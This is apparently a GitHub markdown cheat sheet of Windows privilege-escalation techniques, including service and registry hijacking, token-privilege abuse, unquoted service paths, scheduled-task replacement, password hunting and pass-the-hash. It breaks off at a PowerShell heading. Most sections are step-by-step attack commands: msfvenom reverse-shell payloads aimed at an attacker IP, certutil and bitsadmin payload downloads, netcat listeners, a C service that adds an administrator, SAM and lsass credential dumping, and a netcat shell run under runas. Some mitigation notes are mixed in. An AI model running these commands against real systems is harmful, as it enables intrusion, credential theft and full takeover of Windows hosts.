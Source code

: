#####################################
Windows Privilege Escalation Examples
#####################################

<details>
<summary>Weak Service Permissions</summary>
 <br> 
========================
 
In Windows, services running as LocalSystem (highest privilege) with non-default or writable executable paths and weak permissions can be exploited for privilege escalation. This document provides detection, exploitation, and remediation steps.

🔍 1. Enumerate Services Running as LocalSystem with Non-Standard Paths
These services might use custom paths (e.g., C:\Users\Public\svc.exe) instead of the protected default (C:\Windows\System32).

✅ PowerShell:

    Get-WmiObject Win32_Service | Where-Object {
    $_.StartName -eq "LocalSystem" -and
    $_.PathName -notlike "C:\Windows\System32*"
    } | Select-Object Name, StartName, PathName

    
✅ WMIC:
cmd

    wmic service get name,startname,pathname | findstr /i "LocalSystem" | findstr /v /i "C:\\Windows\\System32"
<img width="1016" height="237" alt="image" src="https://github.com/user-attachments/assets/b58cd5a7-6d2d-4bba-b200-baa7cc66faee" />
🔐 2. Check Permissions on Service Configuration
Use AccessChk to determine whether a user can start, stop, configure, or modify a service.

✅ Command:
cmd

    .\accesschk64.exe /accepteula -uwcqv user servicename
Look for permissions like:

Permission	Meaning
SERVICE_ALL_ACCESS	Full control
SERVICE_CHANGE_CONFIG	Can change service binary path
WRITE_DAC / WRITE_OWNER	Can escalate to full control
GENERIC_WRITE / GENERIC_ALL	Equivalent to full control
<img width="939" height="407" alt="image" src="https://github.com/user-attachments/assets/e4ea7ead-9a28-4752-9e52-74c28bc09e8b" />

📂 3. Identify Writable Service Executables
✅ Export Executable Paths:

    for /f "tokens=2 delims='='" %a in ('wmic service list full ^| find /i "pathname" ^| find /v /i "system32"') do @echo %a >> C:\Windows\Temp\services.txt
✅ If wmic is not available:
cmd

    sc query state= all | findstr "SERVICE_NAME:" >> servicenames.txt
    FOR /F "tokens=2 delims= " %i in (servicenames.txt) DO @echo %i >> services.txt
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
✅ Check Permissions:
cmd

    for /f "delims=" %a in (C:\Windows\Temp\services.txt) do accesschk.exe /accepteula -qv "%a" >> accesschk.txt
Or use icacls/cacls:

    for /f "delims=" %a in (C:\Windows\Temp\services.txt) do icacls "%a" >> icacls.txt
Look for:

Symbol	Meaning
(F)	Full Access
(M)	Modify Access
(W)	Write Access
(WDAC)	Write DACL
(WO)	Write Owner

⚙️ 4. Exploitation Steps
✅ 4.1 Replace the Service Executable
Generate a reverse shell payload (Metasploit):

bash

    msfvenom -p windows/powershell_reverse_tcp LHOST=<attacker_ip> LPORT=4444 -f exe -o reverse_priv.exe
Host it:

bash

    python3 -m http.server 8999
Transfer to target:

powershell

    wget http://<attacker_ip>:8999/reverse_priv.exe -o reverse_priv.exe
Overwrite service binary:

powershell

    copy reverse_priv.exe "C:\Path\To\Service.exe"
✅ 4.2 Start the Service
c

    sc start <service>
Or:

cmd

    net start <service>
⚡ 5. Writable Service Object Exploitation
✅ Find Writable Service Objects
cmd

    accesschk.exe /accepteula -uwcqv "Authenticated Users" *
✅ Update Service Binary Path
cmd

    sc config <service> binPath= "C:\Path\To\reverse_priv.exe"
Remove dependencies if blocking:

cmd

    sc config <service> depend= ""
Change service start mode to manual:

cmd

    sc config <service> start= demand
Update service to run as SYSTEM:

c

    sc config <service> obj= ".\LocalSystem" password= ""
✅ Start/Stop Service:
cmd

    sc stop <service>
sc start <service>
Or:

cmd

    net stop <service>
    net start <service>
🧪 6. Validate Exploitability
powershell

    Get-WmiObject Win32_Service -Filter "Name='<service>'" |Select-Object Name, DisplayName, StartMode, State, StartName, PathName
<img width="1064" height="161" alt="image" src="https://github.com/user-attachments/assets/6fdbbea7-d56e-4cb4-80a3-4f9016f995c8" />
    
🤖 7. Automated Enumeration
✅ SharpUp
Use SharpUp.exe for automated privilege escalation checks.

cmd

    SharpUp.exe --services
    or: SharpUp.exe audit
 <img width="974" height="482" alt="image" src="https://github.com/user-attachments/assets/b36466e1-923a-4ddb-8188-bcfb99ac4c76" />
   
✅ Summary of Exploit Steps
Step	Description
🔍 1	Find services running as LocalSystem with writable paths
🔐 2	Check if current user can change or control the service
💣 3	Replace binary with malicious payload
▶️ 4	Restart or trigger the service to execute payload
⚡ 5	Get SYSTEM-level shell

🔐 Remediation Checklist
✅ Always install services in C:\Windows\System32

✅ Set tight permissions using sc sdset or GPO

✅ Regularly audit services using:

 Sysinternals AccessChk

 PowerUp / SharpUp

✅ Enable AppLocker / Software Restriction Policies

✅ Monitor service creation/modification with Sysmon

</details>
<details>
<summary>Weak Registry Permissions</summary>
 <br> 
  ============================

Windows services are configured in the registry under HKLM\SYSTEM\CurrentControlSet\Services. If a non-privileged user has write or full control over a service's registry key, they can change critical values like ImagePath — allowing execution of arbitrary binaries with SYSTEM privileges when the service is started.

🕵️ Step 1: Detect Weak Registry Permissions
🔎 Using WinPEAS (Automated)
Run winPEASany.exe:

cmd

    .\winPEASany.exe all
Look for entries under:
[Services - Registry Permissions]
These reveal services where the current user has excessive permissions.

<img width="1050" height="103" alt="image" src="https://github.com/user-attachments/assets/a5f5b04c-49d7-469b-84b8-35af1f32e7cd" />
🔎 Using PowerShell (Manual Check)
Check a specific service like regsvc:

powershell

    Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
Look for:

Access : NT AUTHORITY\INTERACTIVE Allow  FullControl
✅ If FullControl or Write access is granted to Everyone, INTERACTIVE, or the current user — it's vulnerable.
<img width="1031" height="559" alt="image" src="https://github.com/user-attachments/assets/f7944279-ac80-4103-bf83-6bc320210f30" />

🐚 Step 2: (Optional) Generate Reverse Shell Payload
Generate a payload on your attacker (Kali) machine:

bash

    msfvenom -p windows/powershell_reverse_tcp LHOST=<attacker-ip> LPORT=1234 -f exe -o reverse_shell.exe
Or write a custom C service:
    #include <windows.h>
    #include <stdio.h>
    
    #define SLEEP_TIME 5000
    
    SERVICE_STATUS ServiceStatus; 
    SERVICE_STATUS_HANDLE hStatus; 
     
    void ServiceMain(int argc, char** argv); 
    void ControlHandler(DWORD request); 
    
    //add the payload here
    int Run() 
    { 
        system("cmd.exe /k net localgroup administrators user /add");
        return 0; 
    } 
    
    int main() 
    { 
        SERVICE_TABLE_ENTRY ServiceTable[2];
        ServiceTable[0].lpServiceName = "MyService";
        ServiceTable[0].lpServiceProc = (LPSERVICE_MAIN_FUNCTION)ServiceMain;
    
        ServiceTable[1].lpServiceName = NULL;
        ServiceTable[1].lpServiceProc = NULL;
     
        StartServiceCtrlDispatcher(ServiceTable);  
        return 0;
    }
    
    void ServiceMain(int argc, char** argv) 
    { 
        ServiceStatus.dwServiceType        = SERVICE_WIN32; 
        ServiceStatus.dwCurrentState       = SERVICE_START_PENDING; 
        ServiceStatus.dwControlsAccepted   = SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN;
        ServiceStatus.dwWin32ExitCode      = 0; 
        ServiceStatus.dwServiceSpecificExitCode = 0; 
        ServiceStatus.dwCheckPoint         = 0; 
        ServiceStatus.dwWaitHint           = 0; 
     
        hStatus = RegisterServiceCtrlHandler("MyService", (LPHANDLER_FUNCTION)ControlHandler); 
        Run(); 
        
        ServiceStatus.dwCurrentState = SERVICE_RUNNING; 
        SetServiceStatus (hStatus, &ServiceStatus);
     
        while (ServiceStatus.dwCurrentState == SERVICE_RUNNING)
        {
    		Sleep(SLEEP_TIME);
        }
        return; 
    }
    
    void ControlHandler(DWORD request) 
    { 
        switch(request) 
        { 
            case SERVICE_CONTROL_STOP: 
    			ServiceStatus.dwWin32ExitCode = 0; 
                ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
                SetServiceStatus (hStatus, &ServiceStatus);
                return; 
     
            case SERVICE_CONTROL_SHUTDOWN: 
                ServiceStatus.dwWin32ExitCode = 0; 
                ServiceStatus.dwCurrentState  = SERVICE_STOPPED; 
                SetServiceStatus (hStatus, &ServiceStatus);
                return; 
            
            default:
                break;
        } 
        SetServiceStatus (hStatus,  &ServiceStatus);
        return; 
    } 
**Edit the C code**:

Change the `system()` call in `windows_service.c` to the desired command. For example:

    system("cmd.exe /k net localgroup administrators user /add");

<img width="784" height="573" alt="image" src="https://github.com/user-attachments/assets/7758c770-cd18-4aa5-8a1a-41f2d2817b37" />
Compile it:

bash

    x86_64-w64-mingw32-gcc windows_service.c -o x.exe
  <img width="641" height="188" alt="image" src="https://github.com/user-attachments/assets/22c39aeb-deda-4f41-9e5c-e33d649f8e0b" />   
📤 Step 3: Transfer the Payload to the Target
From the target system (Windows), run:

cmd

    certutil -urlcache -split -f http://<attacker-ip>:8999/x.exe x.exe
<img width="692" height="120" alt="image" src="https://github.com/user-attachments/assets/0f93c4dd-9e1d-4341-a547-3642530616a6" />

   
🧠 You can also use Python HTTP server or impacket-smbserver to serve the file.

📝 Step 4: Modify the Service Registry Key
Replace the service binary with your payload by editing ImagePath:

cmd

    reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\temp\x.exe /f
✅ REG_EXPAND_SZ is used for variables like %SystemRoot% but works with hardcoded paths too.

🚀 Step 5: Start the Hijacked Service
Trigger the service manually:

cmd

    sc start regsvc
or

cmd

    net start regsvc
Your payload (x.exe) now executes as SYSTEM.

✅ Step 6: Confirm SYSTEM Privileges
If your payload added a user to the admin group, verify:

cmd

    net localgroup administrators
You should see the new user added successfully.
<img width="778" height="278" alt="image" src="https://github.com/user-attachments/assets/35626fa9-491d-4617-8375-8a17561f609a" />

📉 Cleanup (Optional)
Restore the original ImagePath (if known).

Delete your payload:

cmd

    del C:\temp\x.exe
Remove the user (if created):

cmd

    net user <user> /del
🛡️ Detection & Mitigation
Control	Description
🔍 Registry Monitoring	Use tools like Sysmon (Event ID 13) to track changes to HKLM\SYSTEM\CurrentControlSet\Services\*
🛡️ ACL Auditing	Regularly audit service permissions: check for users/groups with Write or FullControl
🚫 Least Privilege	Ensure non-admin users don’t have access to service registry keys
🔐 Group Policy	Enforce secure registry ACLs through GPO
🔁 Service Hardening	Reconfigure vulnerable services or replace legacy components

📝 Summary Cheat Sheet
Action	Command
Detect vuln services	Get-Acl or winPEASany.exe
Set malicious ImagePath	reg add ... /v ImagePath ...
Trigger service	sc start <svc>
Check admin status	net localgroup administrators 
</details>
<details>
<summary>SeBackupPrivilege</summary>
 <br> 
 ============================
 
🔑 What is SeBackupPrivilege?
SeBackupPrivilege is a special Windows permission intended for backup operations.

It allows a user to bypass file ACLs and read any file on the system — even highly sensitive ones like:

C:\Windows\System32\config\SAM

C:\Windows\System32\config\SYSTEM

Attackers can abuse this to extract password hashes and escalate privileges.

🔍 Step 1: Check for SeBackupPrivilege
After getting access (e.g., through Evil-WinRM), check assigned privileges:

powershell

    whoami /priv
   <img width="923" height="339" alt="image" src="https://github.com/user-attachments/assets/18ee9197-db13-4739-b7cf-69ffa64bdf96" />

✅ Look for SeBackupPrivilege in the output.

📁 Step 2: Dump Registry Hives
Create a Temp Directory and Dump SAM & SYSTEM
powershell

    cd C:\
    mkdir Temp
    reg save hklm\sam C:\Temp\sam
    reg save hklm\system C:\Temp\system
 <img width="766" height="416" alt="image" src="https://github.com/user-attachments/assets/5f011469-d495-42eb-8b76-fe2af58a191e" />
   
📥 Step 3: Transfer Files to Kali
Use Evil-WinRM's built-in download command:

powershell

    cd Temp
    download sam
    download system
 <img width="563" height="298" alt="image" src="https://github.com/user-attachments/assets/178f145f-cb49-4cb4-9f82-6e1e424d6658" />
   
🔓 Step 4: Extract Hashes on Kali
🐍 Option 1: Using PyPyKatz
bash

    pypykatz registry --sam sam system
✅ This will output NTLM hashes like:
<img width="1021" height="296" alt="image" src="https://github.com/user-attachments/assets/cf46c206-5e73-4c69-ba4b-3ab653fe5069" />


Administrator:500:aad3b435b51404eeaad3b435b51404ee:5e0375cf8e440aa58a809d57edd78996::
🧰 Option 2: Using Impacket’s secretsdump.py

    cd ~/impacket
    python3 -m venv impacket-env
    source impacket-env/bin/activate
    secretsdump.py -system /home/kali/system -sam /home/kali/sam LOCAL
 <img width="1056" height="320" alt="image" src="https://github.com/user-attachments/assets/9fa97eb3-93ba-496e-9418-ecb08ed1bb24" />
   
🚪 Step 5: Lateral Movement / Privilege Escalation
Use the extracted NTLM hash to pivot or escalate.

🛠️ Option 1: Evil-WinRM (Pass-the-Hash)

evil-winrm -i <target-ip> -u <domain\user> -H <NTLM-hash>
Example:

    evil-winrm -i 192.168.216.130 -u corp\administrator -H 5e0375cf8e440aa58a809d57edd78996
🛠️ Option 2: CrackMapExec

    crackmapexec smb <target-ip> -u Administrator -H <NTLM-hash>
🛠️ Option 3: PsExec (from Impacket)

    psexec.py Administrator@<target-ip> -hashes :<NTLM-hash>
🧑‍💼 Bonus: Enumerate Users (Optional)
If you need to look up domain users on a DC:

powershell

    Get-ADUser -Filter * | Select-Object Name, SamAccountName
Requires ActiveDirectory module, usually available on domain controllers.

🔚 Summary
Step	Action
1️⃣	Check if user has SeBackupPrivilege
2️⃣	Dump SAM and SYSTEM hives using reg save
3️⃣	Download files using evil-winrm
4️⃣	Extract hashes with pypykatz or secretsdump.py
5️⃣	Reuse hashes with Evil-WinRM, CrackMapExec, or PsExec for lateral movement or privilege escalation

 </details>

 <details>
<summary>SeImpersonatePrivilege</summary>
 <br>
  =====================
  
🔍 What is SeImpersonatePrivilege?
The SeImpersonatePrivilege is a powerful permission in Windows that allows a user to impersonate the security context of another user. This is typically used by services to act on behalf of a client.

✅ If a low-privileged user account has SeImpersonatePrivilege, it can often be exploited to escalate to SYSTEM or Administrator using various impersonation attacks.

🧠 Why is it dangerous?
This privilege allows attackers to impersonate privileged tokens (like SYSTEM or admin) when certain services or RPC endpoints allow it.

It is commonly exploited in local privilege escalation (LPE) scenarios.

🔍 Identifying SeImpersonatePrivilege
Run this on the target system (PowerShell):

powershell

    whoami /priv | findstr SeImpersonatePrivilege
If you see it as Enabled, you can likely proceed with known exploits.
<img width="1041" height="362" alt="image" src="https://github.com/user-attachments/assets/aeb520d9-af88-4719-b8cb-4707dcabfedb" />

⚙️ Exploitation Tools
🔧 1. PrintSpoofer
PrintSpoofer abuses the SeImpersonatePrivilege via the Print Spooler service to impersonate SYSTEM.

🧪 Steps:
Upload the executable to the target system:

powershell

    upload PrintSpoofer.exe
<img width="1064" height="178" alt="image" src="https://github.com/user-attachments/assets/7d0e6a51-a786-4ae1-85a7-c54c65220d4c" />
    
Run PrintSpoofer to add your user to the Administrators group:

powershell

    .\PrintSpoofer.exe -i -c "net localgroup Administrators <user-name> /add"
-i → impersonate token

-c → command to execute as SYSTEM
<img width="1025" height="77" alt="image" src="https://github.com/user-attachments/assets/fed9f6a6-9e19-4292-9e6d-03c5d0059f91" />

✅ Your user is now part of the Administrators group.

🔧 2. GodPotato
GodPotato is a modern implementation of the RottenPotatoNG/JuicyPotato concept, abusing COM/RPC misconfigurations and SeImpersonate privilege to execute commands as SYSTEM.

🧪 Steps:
Upload the GodPotato executable:

powershell

    upload GodPotato-NET4.exe
Execute the command to add your user to the Administrators group:

powershell

.\GodPotato-NET4.exe -cmd "cmd /c net localgroup Administrators r.andrews /add"
✅ Once executed successfully, the user is elevated.
<img width="1052" height="574" alt="image" src="https://github.com/user-attachments/assets/ef72d9f6-4d43-45c8-8f50-7cca73d7e933" />

✅ Confirming Privilege Escalation
You can now verify that your user has admin access:

powershell

whoami /groups
net user <user-name>
Or list protected directories:

powershell

dir C:\Users\Administrator\
📌 Notes:
These exploits work only locally and require SeImpersonatePrivilege.

These tools may trigger EDR/AV, so obfuscation or alternative binaries might be needed.

Not all Windows builds are vulnerable; ensure the Print Spooler or vulnerable COM servers are available.

🧰 Alternative Tools & Techniques
Tool	Description
JuicyPotato	Legacy COM exploit, works only on older versions
RoguePotato	Bypasses newer Windows protections
PrintSpoofer	Exploits Print Spooler to impersonate SYSTEM
GodPotato	Updated COM exploit using .NET

📚 References
https://github.com/itm4n/PrintSpoofer

https://github.com/BeichenDream/GodPotato

  </details>
  
<details>
<summary>Unquoted Service Pathss</summary>
 <br> 

================================

🔧 Windows Privilege Escalation – Unquoted Service Path Exploit
🧠 Concept Summary
When a Windows service is registered with an unquoted executable path and contains spaces, Windows attempts to locate the executable by parsing the path from left to right, trying each path fragment with .exe appended. If an attacker can write to any of these directories, they can drop a malicious executable and gain privilege escalation when the service is started.

📌 Prerequisites
Attacker has low-privileged shell (RDP, reverse shell, etc.)

One or more services have unquoted paths

Attacker has write permissions to any folder in the service's executable path

🔍 Step 1: Enumeration
✅ Using SharpUp (automated):
powershell

    .\SharpUp.exe auto
✅ Using winPEAS (automated):
powershell

    .\winPEASany.exe all
<img width="1063" height="472" alt="image" src="https://github.com/user-attachments/assets/87a483f6-856f-44ec-9811-6222e88f6b3e" />

✅ Manually with sc:
powershell

    sc qc <ServiceName>
# Example:
sc qc unquotedsvc
Look for output like:

<img width="1039" height="338" alt="image" src="https://github.com/user-attachments/assets/ffd807da-a68d-4d6b-910a-7959ebdfa778" />


BINARY_PATH_NAME   : C:\Program Files\Unquoted Path Service\Common Files\service.exe
⚠️ Notice the path is unquoted and contains spaces.

✅ Find all unquoted services in one command:
powershell

wmic service get name,displayname,pathname,startmode | findstr /i "Auto" | findstr /i /v "C:\Windows\\" | findstr /i /v """
🔍 Step 2: Check Write Permissions
✅ Use accesschk.exe (from Sysinternals):
powershell

    accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"
🔎 Look for:
[RW] BUILTIN\Users
Meaning: any user can write in that directory.
<img width="992" height="159" alt="image" src="https://github.com/user-attachments/assets/0beb539f-c833-41eb-8ed0-882fb1b87533" />

🎯 Step 3: Exploitation
✅ Upload Reverse Shell Payload
powershell

    copy reverse_shell.exe "C:\Program Files\Unquoted Path Service\Common.exe"
⚠️ Name the payload according to where Windows would first look.
For path:
C:\Program Files\Unquoted Path Service\Common Files\service.exe
Windows may try:

C:\Program.exe

C:\Program Files.exe

C:\Program Files\Unquoted.exe

C:\Program Files\Unquoted Path.exe

C:\Program Files\Unquoted Path Service\Common.exe ← ✅ our injection point

Choose the earliest writable location in the path.

📞 Step 4: Start Listener (Kali)
bash

    nc -lvnp 4444
🚀 Step 5: Trigger the Service
powershell

    net start unquotedsvc
🧨 This starts the service and executes your malicious binary.
🎉 You now have a SYSTEM-level shell.
<img width="1064" height="321" alt="image" src="https://github.com/user-attachments/assets/27d6c468-3580-405f-b788-1725775f7e2b" />

🔐 Mitigation (Defender Notes)
Always quote service paths with spaces.

Restrict write permissions on system folders.

Use sc qc, GPO, or PowerShell auditing to periodically scan for misconfigurations.

✅ Checklist Summary
Task	Command/Tool
Enumerate Unquoted Paths	wmic, sc qc, SharpUp, winPEAS
Check Permissions	accesschk.exe
Upload Payload	copy reverse_shell.exe "Path"
Start Listener	nc -lvnp 4444
Start Service	net start <servicename>


</details>
<details>
<summary>Scheduled Task/Job</summary>
 <br> 
 =======================
 
Windows Task Scheduler allows users to schedule programs or scripts to run at specific times or system events. While this is a legitimate administrative feature, it can be abused by attackers for:

Privilege Escalation: If a scheduled task is executed with higher privileges, an attacker can inject or replace the associated executable to gain SYSTEM-level access.

Persistence: Scheduled tasks can ensure malware or shells re-execute after reboot or on a timed interval.

📌 Prerequisites
Low-privileged access to a Windows machine (e.g., via RDP or reverse shell).

Ability to read/write in directories where scheduled tasks point to executables.

OR permissions to create/modify tasks.

🔍 Step 1: Enumerate Scheduled Tasks
powershell

    schtasks /query /fo LIST /v
This lists all scheduled tasks in verbose format, including:

Task Name
Run As User
Executable Path
Schedule
Task State

📌 Look for:

Tasks run as NT AUTHORITY\SYSTEM

Executables located in user-writable paths (e.g., C:\Users\Public\, C:\ProgramData\, etc.)

🔥 Step 2: Create Malicious Executable (Reverse Shell)
Using MSFVenom to generate a reverse shell payload:

bash

    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.3 LPORT=8888 -f exe > shell.exe
Alternatively (⚙️ Alternative Payload Options):

Persistent Payload (Metasploit Meterpreter):

bash

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.3 LPORT=4444 -f exe > meterpreter.exe
Custom EXE (compiled C# or PowerShell script using MSBuild):

Use tools like MSBuild, donut, Nim, or C# executables.

🎯 Step 3: Inject Malicious Executable
Rename Original Executable (optional backup):

powershell

    ren file.exe file.bak
Download your payload to the same location:

powershell

    powershell -c "Invoke-WebRequest http://192.168.1.3/shell.exe -OutFile file.exe"
🔁 Alternate download methods:

certutil:

powershell

    certutil -urlcache -split -f http://192.168.1.3/shell.exe file.exe
bitsadmin:

powershell

    bitsadmin /transfer myDownloadJob /download /priority high http://192.168.1.3/shell.exe C:\Temp\file.exe
Confirm file is placed and matches original name.

📞 Step 4: Start Netcat Listener on Attacker Machine
bash

    nc -lvnp 8888
🕒 Step 5: Wait for the Scheduled Task to Trigger
On next trigger (e.g., boot time, time interval), your malicious file.exe is executed.

You receive a SYSTEM shell back.

🛡️ Detection & Monitoring
📌 View Task Scheduler Logs
Enable Event Log:

    Microsoft-Windows-TaskScheduler/Operational
Check via Event Viewer:

arduino

    Event ID 106: Task registered
    Event ID 200: Task started
    Event ID 201: Task completed
📌 Task Query for Investigation
powershell

    schtasks /query /fo LIST /v
📌 File System Monitoring
Use tools like:

🔍 Sysinternals Autoruns: Detects auto-starting entries, including scheduled tasks
Autoruns[https://docs.microsoft.com/en-us/sysinternals/downloads/autoruns]

🔍 Process Explorer: Investigates running processes and their privileges
Process Explorer[https://learn.microsoft.com/en-us/sysinternals/downloads/process-explorer]

🔍 TCPView: Monitors live TCP/UDP connections
TCPView[https://docs.microsoft.com/en-us/sysinternals/downloads/tcpview]

🔀 Alternative Exploitation Scenarios
Scenario	Description
Writable Executable Path	Replace task's binary if stored in a writable location (e.g., C:\Users\Public\App.exe)
Create New Task (if user has rights)	Use schtasks /create to create a task running as SYSTEM
DLL Hijacking via Scheduled Task	If the task binary loads unmanaged DLLs unsafely, inject your malicious DLL
Startup Triggers	Abuse AtLogon, OnStartup, Daily triggers for persistence
Via COM objects / PowerShell WMI	Create tasks silently using PowerShell:

powershell

    $action = New-ScheduledTaskAction -Execute "shell.exe"
    $trigger = New-ScheduledTaskTrigger -AtStartup
Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "PersistTask" -User "SYSTEM"
🔐 Mitigation Techniques
Defense	Description
Least Privilege Principle	Restrict ability to create/modify tasks to admin users only
Monitor Task Changes	Enable auditing of TaskScheduler logs
Protect File System	Secure executable paths used by tasks
Application Whitelisting	Prevent unauthorized executables (e.g., via AppLocker)
Regular Review	Periodic manual or automated audits of scheduled tasks

✅ Summary
Task	Command/Tool
Enumerate Tasks	schtasks /query /fo LIST /v
Create Payload	msfvenom -p windows/shell_reverse_tcp ...
Upload Payload	powershell wget, certutil, bitsadmin
Setup Listener	nc -lvnp <port>
Detect/Investigate	Event Viewer, Autoruns, Process Explorer, Sysmon
</details>

<details>
<summary>Cleartext Passwords</summary>
 <br> 

===================
After gaining initial access to a Windows system, attackers often look for cleartext or weakly encrypted passwords stored in configuration files, registry keys, or leftover deployment scripts. These credentials can lead to privilege escalation or access to other systems in the network.

🔎 1. Search for Passwords in Files
✅ Search common keywords in common text files:
cmd

    findstr /si password *.txt *.xml *.ini
Searches for password (case-insensitive) in .txt, .xml, and .ini files.

✅ Search all files for keywords like password:
cmd

    findstr /spin "password" *.*
/s: recurse subdirectories
/p: skip binary files
/i: case-insensitive
/n: include line numbers

✅ Search for filenames suggesting stored credentials:

    dir /s *pass* == *cred* == *vnc* == *.config*
Looks for files that likely contain credentials in their names.

🔁 Alternative Filename Searches:

cmd

    dir /s /b *pass*.*  
    dir /s /b *cred*.*  
    dir /s /b *secret*.*  
    dir /s /b *.config  
    dir /s /b *.ini  
🗂️ 2. Check Known Files Containing Credentials
These files are often left over from Windows installations, third-party applications, or RDP/VNC tools:

cmd

    type C:\sysprep.inf
    type C:\sysprep\sysprep.xml
    type C:\unattend.xml
    type %WINDIR%\Panther\Unattend\Unattended.xml
    type %WINDIR%\Panther\Unattended.xml
💡 These often contain Local Admin credentials used during unattended Windows installations.

📂 3. Look for Remote Desktop & VNC Credentials

    dir C:\*vnc.ini /s /b
    dir C:\*ultravnc.ini /s /b
    dir C:\ /s /b | findstr /si *vnc.ini
VNC applications often store saved passwords in these .ini files (sometimes base64 or weak XOR encoding).

🔁 Alternatives:

tightvnc.ini
realvnc.ini
*.rdp files

🧬 4. Search the Windows Registry for Stored Passwords
🔍 Search entire registry hives:

    reg query HKLM /f password /t REG_SZ /s
    reg query HKCU /f password /t REG_SZ /s
🔎 Scans for REG_SZ values containing password.

🔎 Targeted Registry Keys

    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
Look for DefaultPassword, AutoAdminLogon, etc. Can be used to autologin as local admin.

cmd

    reg query "HKLM\SYSTEM\CurrentControlSet\Services\SNMP"
SNMP community strings may be stored here (used for network equipment access).

    reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
PuTTY session passwords, IPs, saved usernames – can be decoded from registry manually or using tools like putty-creds.

    reg query "HKLM\SOFTWARE\RealVNC\WinVNC4" /v password
RealVNC stores encrypted passwords here. Can be cracked with tools like vncpwd.

💡 Extra Tip: Use PowerShell for Enhanced File Search
powershell

    Get-ChildItem -Recurse -Include *.xml,*.txt,*.ini -Path C:\ | 
    Select-String -Pattern "password" -SimpleMatch
More efficient and readable than findstr, especially with large directories.

📂 Locations Often Containing Secrets
Path	Description
C:\Users\<user>\AppData\Roaming\	App data, often includes creds
C:\ProgramData\	Global config files
C:\inetpub\wwwroot\	Web apps with DB connection strings
.git directories	May include .env, configs, hardcoded secrets
.rdp files	Remote Desktop files may store credentials
web.config, app.config	.NET config files with plaintext DB strings

🧰 Helpful Tools (Optional)
🛠️ Windows Credential Editor (WCE) – Dumps stored credentials.
🔎 LaZagne – Searches for stored passwords from various apps.
🧪 Mimikatz – Extracts plaintext credentials, tokens, and hashes from memory.
🔐 Secretsdump.py (Impacket) – Dumps credentials remotely via SMB.
🧾 NirSoft tools – GUI tools for saved browser, RDP, Outlook, etc., passwords.

🔐 Detection & Defense
Defense Strategy	Description
File Auditing	Monitor access to sensitive config and .xml, .ini, .rdp files
Registry Auditing	Use Sysmon + Event Logging to monitor suspicious registry access
Credential Scanning Tools	Use tools like truffleHog, gitleaks, or Stealthbits to scan systems/repos for secrets
Least Privilege	Avoid storing passwords in plaintext where possible, and restrict read permissions
Credential Manager	Use Windows Credential Locker or LSA to securely store secrets

✅ Summary Table
Task	Command
Find password in text files	findstr /si password *.txt *.xml *.ini
Search all files for keywords	findstr /spin "password" *.*
Search filenames	dir /s *pass*.*
Check common files	type c:\unattend.xml, etc.
Check registry	reg query HKLM /f password /t REG_SZ /s
PuTTY sessions	reg query HKCU\Software\SimonTatham\PuTTY\Sessions
VNC keys	reg query HKLM\SOFTWARE\RealVNC\WinVNC4 /v password


</details>
<details>
<summary>Passing the Hash</summary>
 <br> 
================
Passing the Hash is a post-exploitation technique that allows an attacker to authenticate using NTLM hashes without knowing the actual plaintext password. Instead of cracking hashes, the attacker reuses them directly to gain remote or local access under another user’s (typically admin) context.

🔍 Step 1: Dump NTLM Password Hashes
To perform PtH, you first need access to NTLM hashes. These can be obtained using credential-dumping tools:

✅ Common Hash Dumping Tools
cmd

    wce32.exe -w
    wce64.exe -w
    fgdump.exe
🧰 Alternative Hash Dumpers:

mimikatz.exe – Powerful credential extraction tool:

powershell

    sekurlsa::logonpasswords
lsass.dmp with secretsdump.py:

bash

    procdump64.exe -ma lsass.exe lsass.dmp
    secretsdump.py -system SYSTEM -security SECURITY -sam SAM LOCAL
LaZagne – Extracts saved creds from many apps

🌐 Passing the Hash – Remote Execution
Once you have an NTLM hash, you can use it to remotely authenticate and execute commands on other systems.

✅ Using pth-winexe
bash

    pth-winexe -U <domain>/<username>%<NTLM_hash> //<target-ip> cmd
🚩 Use Administrator or other privileged accounts for best results.

📌 Target Hostname Instead of IP

Some systems may require NetBIOS name resolution:

bash

    pth-winexe -U <domain>/<username>%<hash> //<hostname> cmd
🛠️ If hostname doesn't resolve, edit /etc/hosts:

php-template

    <target-ip>  <hostname>
✅ Using Environment Variable SMBHASH (Alternate Method)
bash

    export SMBHASH=<LM_hash>:<NTLM_hash>
    pth-winexe -U <domain>/<username>% //<target-ip> cmd
Useful if only one hash type is available (LM or NTLM).

🧠 Tip: If LM hash is not used, you can leave it as 00000000000000000000000000000000

✅ Using impacket's wmiexec.py or psexec.py
bash

    psexec.py -hashes :<NTLM_hash> <domain>/<user>@<ip>
    wmiexec.py -hashes :<NTLM_hash> <domain>/<user>@<ip>
🔁 Use -k or -no-pass flags depending on your setup.

🖥️ Passing the Hash – Local Execution
In some cases, you can use the NTLM hash locally on the same machine where the hash was dumped to escalate privileges.

✅ Using runas (Custom Build for PtH)
⚠️ Windows' built-in runas.exe does not support PtH natively. This method works only with modified or patched versions (e.g., via PowerShell Empire or tools like RunasCs).

cmd

    runas.exe /env /noprofile /user:<username> <hash> "C:\Windows\Temp\nc.exe <attacker-ip> 53 -e cmd.exe"
🧠 Note: You may need SeTcbPrivilege or SYSTEM-level context to impersonate other users with hashes locally.

✅ Using PowerShell (via Secure Strings)
powershell

